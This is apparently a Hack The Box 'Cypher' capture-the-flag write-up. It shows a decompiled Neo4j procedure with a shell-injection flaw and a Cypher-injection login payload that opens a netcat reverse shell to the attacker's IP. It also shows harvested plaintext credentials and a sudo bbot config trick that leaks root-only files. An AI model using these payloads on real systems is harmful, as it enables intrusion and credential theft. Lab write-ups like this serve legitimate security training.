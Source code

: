 # Cypher - HTB Write-up
## Port 80 

### Directory enumeration
`❯ gobuster dir --url $url/api -t 100 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

`/auth - Method not allowed`

In the directory `/testing` we find a `.jar` file, decompile it:
```java
public class CustomFunctions {
  @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
  @Description("Returns the HTTP status code for the given URL as a string")
  public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))
      url = "https://" + url; 
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
    System.out.println("Command: " + Arrays.toString((Object[])command));
    Process process = Runtime.getRuntime().exec(command);
    BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
    BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
    StringBuilder errorOutput = new StringBuilder();
    String line;
    while ((line = errorReader.readLine()) != null)
      errorOutput.append(line).append("\n"); 
    String statusCode = inputReader.readLine();
    System.out.println("Status code: " + statusCode);
    boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
    if (!exited) {
      process.destroyForcibly();
      statusCode = "0";
      System.err.println("Process timed out after 10 seconds");
    } else {
      int exitCode = process.exitValue();
      if (exitCode != 0) {
        statusCode = "0";
        System.err.println("Process exited with code " + exitCode);
      } 
    } 
    if (errorOutput.length() > 0)
      System.err.println("Error output:\n" + errorOutput.toString()); 
    return Stream.of(new StringOutput(statusCode));
  }
  
  public static class StringOutput {
    public String statusCode;
    
    public StringOutput(String statusCode) {
      this.statusCode = statusCode;
    }
  }
}
```

It seems that the login page might be using this... so we can try to hijack it.

This is the command that it runs to get the HTTP response.
```shell
/bin/sh -c curl -s -o /dev/null --connect-timeout 1 -w %{http_code} <URL>
```

Lets try to call the procedure `custom.getUrlStatusCode` using that we previously found in the code.

- Payload for RCE / RevShell
```shell
{"username":"a' return h.value as a UNION CALL custom.getUrlStatusCode(\"http://10.10.x.x:80;busybox nc 10.10.14.115 1337 -e sh;#\") YIELD statusCode AS a RETURN a;//","password":"hello"}
```

This will result in a process like this
```shell
neo4j       2357    1822  0 13:05 ?        00:00:00 /bin/sh -c curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://10.10.x.x:80;busybox nc 10.10.14.115 1337 -e sh;#
```

## Interesting finds as neo4j user
```shell
neo4j@cypher:/home/graphasm$ cat user.txt 
cat: user.txt: Permission denied
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK

neo4j@cypher:~$ cat .bash_history 
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK

neo4j@cypher:~/data$ cat dbms/auth.ini 
neo4j:SHA-256,6a4277a4653a8536cff2d6f44fc698621e237d33a0fa36a57c55fb3bfead7b48,3d19d683dc15384a6cae9dc840740e93116cae7b0786b9dfee4dbbacbc13a65c,1024:
```

## Interesting finds as graphasm
```shell
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```


## Privilege Escalation
```shell
graphasm@cypher:~$ sudo /usr/local/bin/bbot --help
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope]
            [-p [PRESET ...]] [-c [CONFIG ...]] [-lp] [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]]
            [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly] [-n SCAN_NAME] [-v]
            [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR]
            [-om MODULE [MODULE ...]] [--json] [--brief] [--event-types EVENT_TYPES [EVENT_TYPES ...]]
            [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        What's considered in-scope (by default it's the same as --targets)
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        Don't touch these things
  --strict-scope        Don't consider subdomains of target/whitelist to be in-scope

Presets:
  -p [PRESET ...], --preset [PRESET ...]
                        Enable BBOT preset(s)
  -c [CONFIG ...], --config [CONFIG ...]
                        Custom config options in key=value format: e.g. 'modules.shodan.api_key=1234'
  -lp, --list-presets   List available presets.
```

As you can see we can use a config file with `-c`. Also the option `-d` enables debugging. 

Maybe we can use this to read `/root/flag.txt`? Let's try it:

```shell
sudo /usr/local/bin/bbot -c /root/root.txt -d --dry-run
```

`--dry-run` is used here so we don't make any modification and just show a emulation of the process.

```shell
[DBUG] internal.excavate: Including Submodule URLExtractor
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: c551b54954fc40****
```